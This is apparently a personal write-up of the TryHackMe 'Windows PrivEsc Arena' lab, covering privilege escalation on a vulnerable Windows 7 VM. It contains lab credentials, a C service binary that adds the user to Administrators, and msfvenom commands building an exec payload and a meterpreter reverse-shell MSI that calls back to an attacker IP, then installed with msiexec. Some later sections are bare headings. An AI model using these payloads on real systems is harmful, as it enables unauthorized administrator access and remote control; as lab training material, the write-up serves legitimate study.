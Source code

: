 # THM - Windows PrivEsc Arena

Students will learn how to escalate privileges using a very vulnerable Windows 7 VM. RDP is open. Your credentials are user:password321

<figure><img src="../../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

connect rdp

```bash
rdesktop 10.10.50.130 -g 95%
```

PowerUp

```powershell
powershell.exe -ep bypass 
import-module powerup.p1
invoke-AllChecks
```

<figure><img src="../../../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

```
lcacls.exe <path.exe>
```

<figure><img src="../../../../.gitbook/assets/image (355).png" alt=""><figcaption><p>"C:\Program Files\File Permissions Service\filepermservice.exe"</p></figcaption></figure>

Code C to make privesc in win7

### Service Escalation - Registry

#### Detection

```powershell
 Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

<figure><img src="../../../../.gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Notice that the output suggests that user belong to “**NT** **AUTHORITY**\\**INTERACTIVE**” has “**FullContol**” permission over the registry key.
{% endhint %}

#### Exploitation

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
        Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
}
```

```powershell
sc start filepermsvc
```

<figure><img src="../../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

To Delete user from group

```powershell
net localgroup Administrators user /DELETE 
```

Escalation va Unquoted Path

```bash
msfvenom -p windows/exec CMD='net localgroup Administrators user /add ' -f exe -o /home/h3ckt0r/tool/privesc/common.exe
updog -p 8080
```

<figure><img src="../../../../.gitbook/assets/image (357).png" alt=""><figcaption><p>nqoted path</p></figcaption></figure>

### Registry Escalation - AlwaysInstallElevated

> 1.Open command prompt and type: **reg query**\
> **HKLM\Software\Policies\Microsoft\Windows\Installer** \
> 2.From the output, notice that “**AlwaysInstallElevated**” value is **1**
>
> <img src="../../../../.gitbook/assets/image (359).png" alt="" data-size="original">

{% code overflow="wrap" %}
```
 msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.0.213 -f msi -o setup.msi
```
{% endcode %}

1.Place ‘setup.msi’ in ‘C:\\**Temp**’.\
2.Open command prompt and type: **msiexec /quiet /qn /i C:\Temp\setup.msi**

<figure><img src="../../../../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

### Service Escalation - Executable Files



<figure><img src="../../../../.gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

Service Escalation - DLL Hijacking



<figure><img src="../../../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>
